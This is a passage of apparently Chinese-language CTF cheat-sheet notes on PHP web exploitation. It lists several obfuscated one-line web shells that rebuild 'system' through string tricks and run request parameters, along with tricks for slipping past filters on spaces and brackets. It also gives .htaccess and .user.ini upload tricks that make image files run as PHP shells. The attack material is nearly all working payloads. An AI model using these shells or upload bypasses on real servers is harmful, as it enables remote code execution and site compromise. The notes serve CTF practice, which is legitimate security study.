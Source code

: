 3. `<?php $a='syste'.'m';($a)('ls ../');` //拼接
 //把ls ../换成tac ../flagaa.php即可找到flag
 
4. 
```php
<?php 
$a = "s#y#s#t#e#m";
b = explode("#",a);
$$c = $$b[0].$b[1].$b[2].$b[3].$b[4].$b[5];
$$c($$_REQUEST[1]);
?>
//c相当于system,给1赋值参数即可
```

5. `<?php $a=substr('1s',1).'ystem'; $a($_REQUEST[1]); ?>`
 
6. `<?php $a=strrev('metsys'); $a($_REQUEST[1]); ?>`
 
7. ?cmd=
`$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{abs})($$pi{acos});`
//数字函数  get传参   abs=system&acos=xxx
 
#### 骚绕过
1. 过滤空格可以直接不打空格或者是用换行0d绕过
2. 过滤[]用{}绕过
3. 过滤ip地址的.时用数字ip绕过
4. 过滤()时构造
``<?=`tac ../f*`?>``

### .htaccess（仅使用于apache）
> htaccess 在站点的根目录下面，不是在apache目录下，但是它属于apache的一个配置文件

利用：
**先上传.htcaccess，内容如下：**
`SetHandler application/x-httpd-php`
\#在当前目录下，所有文件都会被解析成php代码执行
`SetHandler application/x-httpd-php .jpg`
`AddHandler php5-script .jpg `
`AddType application/x-httpd-php .jpg`
\#匹配当前目录下所有jpg文件
```
<FilesMatch "test.png"> 
SetHandler application/x-httpd-php 
</FilesMatch>
```
\#匹配test.png解析为php文件
**然后上传对应格式的文件，内容为一句话木马，然后访问即可被当作php文件执行**


### .user.ini（上传目录必须有php文件存在）
利用点：
```
auto_append_file=filename     //一个相当于在每个php文件尾加上 include(“filename”)
```
```
auto_prepend_file=filename    //一个相当于文件头加上 include(“filename”)
```
利用：
1. //上传.user.ini
auto_prepend_file=1.png
2. //上传1.png
<?=`tac /f*`?>
3. //访问index.php(或当前目录下任意php文件)
